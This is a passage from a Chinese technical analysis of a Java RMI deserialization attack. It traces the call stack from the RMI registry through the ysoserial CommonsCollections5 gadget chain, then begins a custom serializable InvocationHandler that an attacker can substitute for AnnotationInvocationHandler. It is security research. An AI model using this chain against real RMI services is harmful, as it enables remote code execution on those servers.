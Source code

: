   [56] sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$1.2050827014.run (null), pc = 4
  [57] java.security.AccessController.doPrivileged (native method)
  [58] sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run (TCPTransport.java:682), pc = 58
  [59] java.util.concurrent.ThreadPoolExecutor.runWorker (ThreadPoolExecutor.java:1,142), pc = 95
  [60] java.util.concurrent.ThreadPoolExecutor$Worker.run (ThreadPoolExecutor.java:617), pc = 5
  [61] java.lang.Thread.run (Thread.java:745), pc = 11

这个调用栈回溯实在太深了。

4) 简化版调用关系

--------------------------------------------------------------------------
TCPTransport.handleMessages
  Transport.serviceCall
    UnicastServerRef.dispatch
      UnicastServerRef.oldDispatch
        RegistryImpl_Skel.dispatch
          ObjectInputStream.readObject
            AnnotationInvocationHandler.readObject              // 通过remoteProxy与这个类产生关联
              ObjectInputStream.defaultReadObject               // 跟AnnotationInvocationHandler.invoke没关系
                HashMap.readObject                              // 对应客户端的hm变量
                  ObjectInputStream.readObject
                    BadAttributeValueExpException.readObject    // ysoserial/CommonsCollections5
                                                                // 对应客户端的bave变量
                      TiedMapEntry.toString
                        TiedMapEntry.getValue
                          LazyMap.get                           // 此处开始LazyMap利用链
                            ChainedTransformer.transform
                              InvokerTransformer.transform
--------------------------------------------------------------------------

5) GeneralInvocationHandler3.java

参[57]，作者指出攻击端可以不用AnnotationInvocationHandler，而是自己实现一
个InvocationHandler。

参看:

《Java设计模式之代理模式》
http://scz.617.cn/misc/201911291425.txt

```java
/*
 * javac -encoding GBK -g GeneralInvocationHandler3.java
 */
import java.io.*;
import java.lang.reflect.*;

/*
 * 从GeneralInvocationHandler.java修改而来，多实现一个接口Serializable
 *
 * https://docs.oracle.com/javase/8/docs/api/java/lang/reflect/InvocationHandler.html
 *
 * InvocationHandler is the interface implemented by the invocation
 * handler of a proxy instance. Each proxy instance has an associated
 * invocation handler. When a method is invoked on a proxy instance, the
 * method invocation is encoded and dispatched to the invoke method of its
 * invocation handler.
 */
public class GeneralInvocationHandler3 implements InvocationHandler, Serializable
{
    private Object  realobj;

    public GeneralInvocationHandler3 ( Object realobj )
    {
        this.realobj    = realobj;
    }
```